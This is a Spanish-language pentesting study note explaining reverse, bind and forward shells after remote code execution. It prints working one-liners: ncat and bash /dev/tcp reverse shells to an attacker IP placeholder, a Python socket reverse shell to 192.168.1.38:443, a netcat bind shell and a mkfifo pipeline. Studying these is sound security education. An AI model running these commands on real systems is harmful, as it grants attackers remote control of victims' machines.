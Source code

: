 ```yaml
--- 
- Tags: #explotación #basico #teoria
---
```


# Reverse Shell

### Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

### En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

### Algunos one liners tipicos para lograr esto son:

- #### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

- #### Haciendo uso de bash:
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

- #### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

---

# Bind Shell 

### Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

### En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

--- 

# Forward Shell 

### Esta técnica es utiliza cuando no se pueden estrablecer conexiones **Reverse** o **Bind** debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO (named pipe)**, que se utiliza como una espcie de **consola simulada** interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

## Ejemplo: 

#### Si ejecutaramos el sig comando...

```shell
mkfifo input; tail -f input | /bin/bash; 2>&1 > output 
```

#### ...veriamos que se creo un archivo **FIFO** llamado input y un archivo normal llamada output, la idea de esto es que ahora, haciendo uso de descriptores, podriamos redirigir las entradas a input y ver las salidas de estas en output.

```shell
echo "Este comando se va a alojar en output" > input 
cat output 
# ───────┬─────────────────────────────────────────────────
#        │ File: output
# ───────┼─────────────────────────────────────────────────
#    1   │ Este comando se va a alojar en output
# ───────┴─────────────────────────────────────────────────
```

 